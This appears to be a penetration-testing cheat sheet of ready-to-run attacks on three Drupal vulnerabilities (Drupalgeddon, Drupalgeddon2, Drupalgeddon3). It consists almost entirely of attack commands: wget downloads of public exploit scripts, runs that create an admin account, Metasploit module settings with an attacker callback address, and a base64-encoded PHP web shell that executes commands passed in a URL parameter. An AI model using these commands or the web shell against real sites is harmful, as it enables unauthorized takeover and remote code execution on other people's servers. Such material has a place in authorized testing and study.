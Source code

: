 ### Drupalgeddon Vulnerabilities

#### Drupalgeddon (CVE-2014-3704)
```bash
# Affects: Drupal 7.0 - 7.31
# Pre-authenticated SQL injection

# Download exploit
wget https://raw.githubusercontent.com/dreadlocked/Drupalgeddon/master/drupalgeddon.py

# Create admin user
python2.7 drupalgeddon.py -t http://target.com -u admin -p pwned

# Alternative: Metasploit module
use exploit/multi/http/drupal_drupageddon
set RHOSTS target_ip
set TARGETURI /
exploit
```

#### Drupalgeddon2 (CVE-2018-7600)
```bash
# Affects: Drupal < 7.58, < 8.5.1
# Remote code execution via form API

# Download exploit
wget https://raw.githubusercontent.com/a2u/CVE-2018-7600/master/exploit.py

# Basic exploitation (creates hello.txt)
python3 drupalgeddon2.py

# Modify exploit for PHP shell upload:
# Replace echo command with base64-encoded PHP shell
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee shell.php

# Access shell: target.com/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

#### Drupalgeddon3 (CVE-2018-7602)
```bash
# Affects: Multiple Drupal 7.x and 8.x versions
# Authenticated RCE via Form API

# Requires valid session cookie
# Extract from authenticated browser session

# Metasploit exploitation
use exploit/multi/http/drupal_drupageddon3
set RHOSTS target_ip
set VHOST target.com
set DRUPAL_SESSION SESS[session_cookie]
set DRUPAL_NODE 1
set LHOST attacker_ip
exploit
```
